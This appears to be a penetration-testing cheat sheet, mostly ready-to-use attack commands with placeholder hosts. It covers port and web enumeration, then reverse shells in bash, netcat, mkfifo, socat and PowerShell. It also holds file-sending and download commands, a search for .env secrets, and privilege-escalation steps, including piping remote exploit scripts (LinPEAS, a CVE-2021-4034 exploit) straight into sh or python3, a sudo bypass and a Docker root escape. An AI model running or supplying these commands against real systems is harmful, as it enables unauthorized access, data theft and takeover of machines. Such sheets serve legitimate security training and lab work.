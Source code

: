 # CHEATSHEET


## NETWORK ENUMERATION

 ### HOST DISCOVERY
 
```bash
arp-scan -I <INTERFACE> --localnet --ignoredups
```

 ### TCP OPEN PORTS
 
```bash
nmap -p- --open -sS -n -v -Pn --min-rate 5000 -oG allPorts <TARGET> 
```

 ### INFO & VERSION
 
```bash
nmap -p<PORTS> -sCV -oN portScan <TARGET>
```

 ### HTTP ENUMERATION

 Enumerate common directories and files with nmap
 
```bash
nmap -p<PORTS> --script http-enum -oN webScan <TARGET>
```

 Gobuster

```bash
# Directories
gobuster dir -u <URL> -w <WORDLIST>

# Files by extension
gobuster dir -u <URL> -w <WORDLIST> -x http,php,txt

# Subdomains
gobuster vhost -u <URL> -w <WORDLIST>

# Useful parameters
--threads, -t
--exclude-length
--status-codes, -s
--status-codes-blacklist, -b
--no-tls-validation, -k
--timeout
```



## REVERSE SHELLS

 ### BASH
 
```bash
bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
```

 ### NETCAT
 
```bash
nc -e /bin/bash <IP> <PORT>
```

 ### MKFIFO
 
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <PORT> >/tmp/f
```

 ### SOCAT
 
```bash
socat tcp-connect:<IP>:<PORT> exec:/bin/bash,pty,stderr,setsid,sigint,sane
```

 ### POWERSHELL

```powershell
$client = New-Object System.Net.Sockets.TCPClient('<IP>',<PORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String);$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

 ### INTERACTIVE TTY

```bash
script /dev/null -c bash
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
# Check size in another window: stty size
stty rows <ROWS> columns <COLUMNS>
```



## SHARE AND DOWNLOAD


 ### HTTP SERVER
 
```bash
# Python3
python3 -m http.server <PORT>

# Python2
python -m SimpleHTTPServer <PORT>

# PHP
php -S 0.0.0.0:<PORT>
```

 ### SMB 
 
```bash
smbserver.py <NAME> $(pwd) -smb2support
```

 ### FILE TRANSFER ( NETCAT - BASH ) 
 
```bash
# Listen
nc -nlvp <PORT> > <FILE>

# Send
cat <FILE> | nc <IP> <PORT>  # Netcat
cat <FILE> > /dev/tcp/<IP>/<PORT>  # Bash
```

 ### DOWNLOAD 

 #### Powershell
 
```powershell
(New-Object Net.WebClient).DownloadString('<URL>') > <PATH>
```

####Cmd
 
```shell
certutil -urlcache -split -f <URL> <PATH>
```

#### Bash
 
```bash
wget "http://<IP>/"
```



## SYSTEM ENUMERATION


 ### Enviroment Variables
 
```bash
# User enviroment variables
env || set

# Common project enviroment file
find / -name ".env" 2>/dev/null
```

 ### Find SUID on GUID files
 
```bash
# SUID
find / -perm -4000 2>/dev/null

# GUID
find / -perm -2000 2>/dev/null
```

 ### Check capabilities
 
```bash
getcap -r / 2>/dev/null
```

 ### Open local ports
 
```bash
ss -nltp
```

 ### Cron Jobs
 
```bash
# Cron files
find /etc -name "cron*" 2>/dev/null

# Logs
ls -l /var/log/syslog
ls -l /var/log/cron
```

 ### Monitoring processes
 
```bash
old_ps=$(ps -eo user,command); while true; do; new_ps=$(ps -eo user,command); diff <(echo "$old_ps") <(echo "$new_ps") | grep "[\>\<]" |grep -Ev "kworker|user,command"; old_ps=$new_ps; done
```

 ### Scripts with write permissions
 
```bash
find / -user <USER> -perm -o+w \( -name \"*.sh\" -O -name \"*.py\" -O -name \"*.pl\" -O -name \"*.rb\" -O -name \"*.go\" -O -name \"*.lua\" \) 2>/dev/null
```

 ### LinPEAS
 
```bash
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```



## PRIVILEGE ESCALATION

 ### Sudo

```bash
# List user privileges
sudo -l

# Check sudo version
sudo -V | grep "Sudo ver"

# Sudo < v1.28
sudo -u#-1 /bin/bash
```

 ### Polkit - (CVE-2021-4034)

```bash
# Check pkexec permissions
ls -l $(which pkexec)

# If pkexec has SUID
curl -L https://raw.githubusercontent.com/joeammond/CVE-2021-4034/main/CVE-2021-4034.py | python3
```
 
 ### Docker
 
```bash
docker run -it --rm -v /:/mnt alpine chroot /mnt sh
```


